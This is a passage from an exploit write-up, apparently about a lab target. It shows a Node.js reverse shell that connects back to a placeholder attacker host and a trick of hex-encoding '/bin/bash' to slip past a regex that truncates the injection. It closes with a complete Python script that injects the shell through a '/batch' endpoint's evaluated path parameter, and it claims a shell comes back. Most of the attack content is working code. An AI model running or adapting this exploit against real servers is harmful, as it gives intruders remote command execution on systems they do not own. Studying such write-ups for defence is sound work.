




## Solving The Truncation Caveat
We can start by updating our script, with the following JavaScript reverse shell:

```JavaScript
var net = require("net"), sh = require("child_process").exec("/bin/bash");
var client = new net.Socket();
client.connect(5555, "attackerip", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);
sh.stderr.pipe(client);});
```

We will be using this reverse shell, however, it will be in our own python script, and executing the reverse shell.
However, we run into the following error:

```JSON
{"statusCode":500,"error":"Internal Server Error","message":"An internal server error occurred"}
```

To review our error, we can simply add a debugging statement, right before our eval function so we know what's getting executed on the server:



Reviewing the error:



We see that the our complete injection is being truncated, due to the "/bin/bash" slashes.
We can solve this by using "\\\\x2fbin\\\\x2fbash" instead of "/bin/bash", as hex encoded characters are allowed in JavaScript, and thus bypass the regex parsing restrictions.

Our final script will look like as follows:

```python
import requests,sys

if len(sys.argv) != 4:
    print "(+) usage: %s <target> <attacking ip address> <attacking port>" % sys.argv[0]
    sys.exit(-1)
    
target = "http://%s:8080/batch" % sys.argv[1]

cmd = "\\\\x2fbin\\\\x2fbash"

attackerip = sys.argv[2]
attackerport = sys.argv[3]

request_1 = '{"method":"get","path":"/profile"}'
request_2 = '{"method":"get","path":"/item"}'

shell = 'var net = require(\'net\'),sh = require(\'child_process\').exec(\'%s\'); ' % cmd
shell += 'var client = new net.Socket(); '
shell += 'client.connect(%s, \'%s\', function() {client.pipe(sh.stdin);sh.stdout.pipe(client);' % (attackerport, attackerip)
shell += 'sh.stderr.pipe(client);});' 

request_3 = '{"method":"get","path":"/item/$1.id;%s"}' % shell

json =  '{"requests":[%s,%s,%s]}' % (request_1, request_2, request_3)

r = requests.post(target, json)

print r.content
```

## The Shell
Executing our python script with the right arguments:



We get a shell back:

